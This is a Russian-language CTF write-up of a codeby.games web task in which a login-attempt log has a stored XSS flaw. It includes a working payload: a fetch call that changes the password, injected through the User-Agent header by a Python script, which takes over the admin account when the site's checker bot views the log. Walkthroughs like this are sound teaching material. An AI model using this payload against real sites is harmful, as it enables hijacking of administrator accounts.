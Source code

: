## WriteUp на задание "Запретный код" с платформы codeby.games.
### Выполнил Федоринов Максим @haxeed
---
После перехода по ссылке перед нами появляется форма для входа в аккаунт. Исходя из этого делаем вывод, что вероятнее всего потребуется получать доступ к admin.
![image](https://github.com/haxeed/haxeedWU/assets/131273641/751a2833-44fb-468d-9a36-157ae08538f4)

Регистрируем аккаунт и получаем доступ к списку попыток входа в него.
![image](https://github.com/haxeed/haxeedWU/assets/131273641/566acb25-1bce-4caa-9ef9-0e01f1d9210e)

Для проверки работы данной системы пытаемся войти в систему из другого браузера, используя неправильный/правильный пароли. В результате в табличке появляются различные записи о сеансе входящего.
![image](https://github.com/haxeed/haxeedWU/assets/131273641/64e202c4-1c29-497d-a62b-e66f122ada53)

Пытаемся изучить код страницы с целью найти подсказки. Разработчик оставил хинт, задающий вектор, по которому необходимо идти.

![image](https://github.com/haxeed/haxeedWU/assets/131273641/b94cecdb-418b-4443-93af-b9aca95ccb84)

Попробуем использовать "<script>alert(1)</script>" в качестве логина регистрируемого пользователя. Можно заметить, что форма имеет XSS-уязвимость.

![image](https://github.com/haxeed/haxeedWU/assets/131273641/4c1f9587-5f34-4d10-8ba3-52e5cd2673b0)

Постараемся развить вектор со сменой пароля путем использования POST-запроса, о котором нам сообщил разработчик.
Для этого используем следующий код:
````javascript 
fetch('/index.php', {
  method: 'POST', // Указание на то, что это POST-запрос
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded', // Тип контента, отправляемого на сервер
  },
  body: 'newpassword=1234' // Данные, которые нужно отправить
})
.then(response => {
  if (response.ok) {
    return response.text(); // или response.json(), если ожидается JSON-ответ
  }
  throw new Error('Network response was not ok.');
})
.then(data => console.log(data)) // Обработка данных, полученных в ответе
.catch(error => console.error('There was a problem with your fetch operation:', error));
````
"newpassword=1234" - данные о нашем новом пароле.
Вставлять этот код (JavaScript) необходимо в разделе Console в режиме просмотра кода страницы.

![image](https://github.com/haxeed/haxeedWU/assets/131273641/72ab8e18-e4cb-463a-bd2b-2256bc032a07)

В результате выполнения этого кода пароль аккаунта поменялся.

Для использования пейлоада необходимо модифицировать код в Python:
````python 
import requests

newpassword = "<script>fetch('/index.php', {method: 'POST', headers: {'Content-Type': 'application/x-www-form-urlencoded',},body: 'newpassword=12345'})</script>"


user = "admin" 
headers = {'User-Agent': newpassword}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
#print(response.text)
````
В качестве я использовал интегрированную среду разработки PyCharm.
После исполнения модифицированного кода (запрашивающего смену пароля учетной записи администратора) PyCharm сообщает об успешном исполнении.

![image](https://github.com/haxeed/haxeedWU/assets/131273641/316cbf6e-9110-4691-b2b6-e04ee6127765)

Однако, несмотря на "успех", залогиниться под админом все еще не получается. Связано это с тем, что т.к. это задание на клиент-часть, из-за чего страницу периодически будет посещать чекер. Обойти это можно путем нескольких попыток выполнения кода с небольшими интервалами.
В результате мы получаем доступ к аккаунта админа, на котором расположен флаг.

![image](https://github.com/haxeed/haxeedWU/assets/131273641/6af7e18d-dd45-451f-af58-f82b241a9d46)


